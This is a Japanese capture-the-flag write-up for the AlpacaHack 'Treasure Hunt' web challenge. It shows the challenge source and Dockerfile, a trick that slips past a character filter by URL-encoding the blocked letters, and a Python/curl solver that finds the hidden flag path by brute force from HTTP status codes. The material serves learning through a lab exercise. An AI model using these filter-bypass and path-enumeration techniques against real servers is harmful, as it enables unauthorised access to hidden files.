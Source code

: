 # [AlpacaHack Round7(web)](https://alpacahack.com/ctfs/round-7)

卒業論文を進めないといけないので一問だけ解いて退散しようと思っていたらめっちゃ時間かかってしまったので供養します.  
時間ギリギリで解法がわかったものの, 実装で沼っていました.

## Treasure Hunt(71 solves)

### Description
> Can you find a treasure?

### Consideration
<details><summary>渡されたファイル群</summary>

```bash
./
├── compose.yaml
└── web/
    ├── Dockerfile
    ├── index.js
    ├── package-lock.json
    ├── package.json
    └── public/
        ├── alpaca
        ├── book
        ├── crown
        ├── drum
        ├── duck
        ├── key
        ├── pen
        ├── tokyo/
        │   └── tower
        └── wind/
            └── chime
```

</details>

<details><summary>index.js</summary>

```javascript:index.js
import express from "express";

const html = `
<h1>Treasure Hunt 👑</h1>
<p>Can you find a treasure?</p>
<ul>
  <li><a href=/book>/book</a></li>
  <li><a href=/drum>/drum</a></li>
  <li><a href=/duck>/duck</a></li>
  <li><a href=/key>/key</a></li>
  <li><a href=/pen>/pen</a></li>
  <li><a href=/tokyo/tower>/tokyo/tower</a></li>
  <li><a href=/wind/chime>/wind/chime</a></li>
  <li><a href=/alpaca>/alpaca</a></li>
</ul>
`.trim();

const app = express();

app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});

app.use(express.static("public"));

app.get("/", (req, res) => res.type("html").send(html));

app.listen(3000);
```

</details>

<details><summary>Dockerfile</summary>

```text
FROM node:22.11.0

WORKDIR /app

COPY public public

# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH

COPY package.json package-lock.json ./
RUN npm install

COPY index.js .

USER 404:404
CMD node index.js
```

</details>

何を見ればflagが取得できるかはDockerfileにかいてあります.  
```text
FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t
```
flag.txtの中身のハッシュ値をとって一文字ずつディレクトリとして`/f/l/a/g/./t/x/t`と繋げています.  

`56bde24b2b0fd23d0b032c8aa128a86c -> 5/6/b/d/e/2/4/b/2/b/0/f/d/2/3/d/0/b/0/3/2/c/8/a/a/1/2/8/a/8/6/c`
`-> 5/6/b/d/e/2/4/b/2/b/0/f/d/2/3/d/0/b/0/3/2/c/8/a/a/1/2/8/a/8/6/c/f/l/a/g/./t/x/t`  
のような感じ  
だから, `http://localhost:3000/5/6/b/d/e/2/4/b/2/b/0/f/d/2/3/d/0/b/0/3/2/c/8/a/a/1/2/8/a/8/6/c/f/l/a/g/./t/x/t`  
にアクセスできればflagが取れるはずです.  

が、index.jsの22行目のif文によって'f', 'l', 'a', 'g'がURL中にあると400が返されてしまう. - (1)
```javascript
if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
}
```
さらに, 中身の知らないflag.txtのハッシュ値なのでパスもわからない. - (2)  
ここで, `http://localhost:3000/tokyo`を試すと301が返ってきます（`http://localhost:3000/tokyo/`にリダイレクトされる）.  
一方, 存在しないパス（`http:/localhost:3000/hoge`みたいな）を指定すると401が返ってきます.  

(1)は'f', 'l', 'a', 'g'をそれぞれURL Encodeされたまま送ればよい.  
(2)は返ってくるステータスコードで存在するパスかどうか判定すれば良い.  

ということでPythonのRequestsライブラリを用いてソルバを書いたのですが, (1)を満たすコードを一生かけずに時間を溶かしてしまいました.  
おそらくRequestsライブラリではURL Encodeされたままリクエストを送ることができない...?  
ということでpython内でcurlを呼び出す愚行をしました. 「shell script最高！ちゃんと勉強しようね！」ってサークルの某先輩に言われ続けてる気がした...  

以下, ソルバです

```python
import subprocess
import itertools

base_url = "http://localhost:3000"
depth = 40
characters = ["%61", "b", "c", "d", "e", "%66", "%67", "%6c", "%74", "%78", "0",
              "1", "2", "3", "4", "5", "6", "7", "8", "9"]

path = ""
for i in range(depth):
    for dirs in itertools.product(characters):
        tmp = "/".join(dirs)
        url = f"{base_url}/{path}/{tmp}"
        cmd = ["curl", "-I", url]
        res = subprocess.run(cmd, capture_output=True, text=True).stdout
        if "301" in res:
            print(res)
            path = f"{path}/{tmp}"
        else:
            continue

print(path)
```
シェル実行した結果をstringで受け取るのに苦労したのと, `if res in '301'`になっていたのに気づかない, 明らかに集合論ができない人になっていたので更に時間を溶かしました
